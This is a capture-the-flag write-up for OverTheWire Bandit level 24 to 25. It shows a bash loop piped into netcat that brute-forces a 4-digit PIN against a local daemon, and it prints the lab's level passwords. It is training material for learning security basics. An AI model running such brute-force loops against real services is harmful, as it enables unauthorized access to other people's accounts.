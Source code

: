 # Level 24 -> 25

## Objetivo

-   A daemon is listening on port 30002 and will give you the password for bandit25 if  
    given the password for bandit24 and a secret numeric 4-digit pincode. There is no  
    way to retrieve the pincode except by going through all of the 10000 combinations,  
    called brute-forcing.

## Datos de acceso

-   Host: bandit.labs.overthewire.org
-   Port: 2220
-   User: bandit24
-   Password: VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar

## Solución

-   Send port 30002 the current password, however this will not give you the next password. Brute force is required, loop the current password until you get the new one.

```
bandit24@bandit:~$ nc localhost 30002 <<< VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Fail! You did not supply enough data. Try again.
^C
bandit24@bandit:~$ for i in {0000..9999}; do echo VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar $i; done | nc localhost 30002
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
Correct!
The password of user bandit25 is p7TaowMYrmu23Ol8hiZh9UvD0O9hpx8d

Exiting.
bandit24@bandit:~$
```